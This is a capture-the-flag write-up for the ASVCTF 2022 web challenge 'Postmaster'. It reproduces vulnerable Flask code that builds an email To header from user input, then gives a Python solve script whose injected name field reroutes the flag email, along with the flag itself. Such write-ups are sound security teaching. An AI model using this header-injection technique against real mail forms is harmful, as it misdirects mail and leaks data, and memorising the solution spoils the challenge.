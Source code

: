 ```yaml
---
title: Writeup - Postmaster (ASVCTF 2022)
date: 2022-08-20 00:00:00
tags: 
- writeup
- web
- asvctf2022
---
```


# ASVCTF 2022 - Postmaster Writeup
- Type - Web
- Name - Postmaster
- Points - 300

## Description
```markdown
Now introducing: email-based flag delivery.

https://postmaster.boats/
```

## Writeup
Accessing the site revealed another simple page:

<img src="/static/asvctf-postmaster/site.png" width="400px">

Clicking on the link to Source revealed the source code, found [here](/static/asvctf-postmaster/source.py). The important part is this:

```python
@app.route('/send_email', methods=['POST'])
def send_email():
    name = flask.request.form['name']
    email_address = flask.request.form['email']

    if '\n' in name or '\r' in name:
        return flask.redirect('/?m=badname')
    if not EMAIL_REGEX.match(email_address):
        return flask.redirect('/?m=bademail')

    mail = MIMEMultipart('alternative')
    mail['From'] = 'postmaster.boats <noreply@postmaster.boats>'
    mail['To'] = name + ' <' + email_address + '>'
    if email_address == 'admin@email.invalid':
        mail['Subject'] = 'Flag'
        mail.attach(MIMEText(app.config['FLAG'], 'plain'))
    else:
        mail['Subject'] = 'Sorry, try again'
        mail.attach(MIMEText('No flag for you :(', 'plain'))

    smtp_client = smtplib.SMTP(timeout=2)
    smtp_client.connect('localhost')
    smtp_client.send_message(mail)
```

The gist is that sending a POST request to the `/send_email` endpoint with two parameters, `name` and `email`, will cause the system to send an email through an SMTP server to the email address specified with the name attached. To get the flag, the email needs to be set to `admin@email.invalid` - the problem is, if that's the email, then we will never see the flag since we don't own that email. 

Upon closer inspection, one line stands out - `mail['To'] = name + ' <' + email_address + '>'`. The `name` and `email_address` parameters are piped directly into "To" SMTP header, and the only validation on `name` is no newlines (`/n`, `/r`). This means we can insert a name such as `Test <myemail@gmail.com>` and then the email as `admin@email.invalid`, making the "To" line `Test <myemail@gmail.com> <admin@email.invalid>`. This will send the email to us, but the `email` parameter will still give us the flag. 

### Solve Script
Here is my [automated exploit](/static/asvctf-postmaster/solve.py) in Python:

```python
import requests
from urllib.parse import urlencode

# define payload
payload = urlencode({
        "name": "Legoclones <INSERT_EMAIL_HERE@gmail.com> ",
        "email": "admin@email.invalid",
    })

# send request and get result
result = requests.request(
    "POST", "https://postmaster.boats/send_email", 
    data=payload, 
    headers={'Content-Type': 'application/x-www-form-urlencoded'}
)

# check response
if "Email sent!" in result.text:
    print("Check your email for the flag")
else:
    print("Something went wrong")
    print(result.text)
```

Email I received (in my spam folder):

<img src="/static/asvctf-postmaster/flag.png" width="400px">

**Flag:** `ASV{y0U_hAd_Me_@_EHLO}`